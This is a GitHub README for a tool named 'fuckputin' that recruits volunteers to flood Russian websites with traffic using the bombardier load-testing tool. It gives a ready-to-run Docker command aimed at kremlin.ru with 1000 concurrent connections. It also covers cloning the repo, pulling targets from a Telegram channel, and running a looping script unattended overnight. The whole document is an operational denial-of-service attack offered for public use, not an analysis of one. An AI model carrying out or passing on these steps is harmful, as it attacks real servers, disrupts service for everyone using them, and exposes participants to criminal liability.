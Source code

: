 # fuckputin

🇺🇦 A DDoS helper tool to bring down enemy websites - based on [bombardier](https://github.com/codesenberg/bombardier) 🇺🇦

### [Інструкція українською](./README_UA.md)

### Simplified instruction - manual execution
- Install Docker - [Instructions](https://docs.docker.com/get-docker/)
- `docker run -it alpine/bombardier -c 1000 -d 60s -l https://kremlin.ru`
- Last part of the comand is host url, you should pick one [from the last chat messages](https://t.me/itarmyofukraine2022)  

Automatic script performs the same command and loops through a list of hosts, so you can leave it unsupervised overnight or for long periods of time

### Get the code
- Clone the repo - `git clone https://github.com/v1adko/fuckputin.git`   
  or  
[download a zip](https://github.com/v1adko/fuckputin/archive/refs/heads/master.zip) if git clone is taking too long
- Change working directory - `cd ./fuckputin`
- Optionally update [the targets](#targets)

### Targets

Best update targets from [this telegram channel](https://t.me/itarmyofukraine2022)  
Edit contents of the [./fuckputin.sh](/fuckputin.sh) file

### Docker

*Note*: this could take quite some time, if you're tech-savvy enough,  
try [installing binaries manually](#local) directly on your host system,  
it should be faster

- Install Docker - [Instructions](https://docs.docker.com/get-docker/)
- Optionally update [the targets](#targets)
- `docker-compose up --build` (on some systems compose is not installed with docker)
   **or**
- `docker build -t fuckputin .`
- `docker run fuckputin`

### Local

- Install Go - [Instructions](https://go.dev/doc/install)
- Install bombardier [by downloading a binary](https://github.com/codesenberg/bombardier/releases)
- Run `./fuckputin-local.sh`

### Run

Now leave the process running for as much as you can or until you need to update the targets  
Thank you for fighting on our side! 💪 🇺🇦
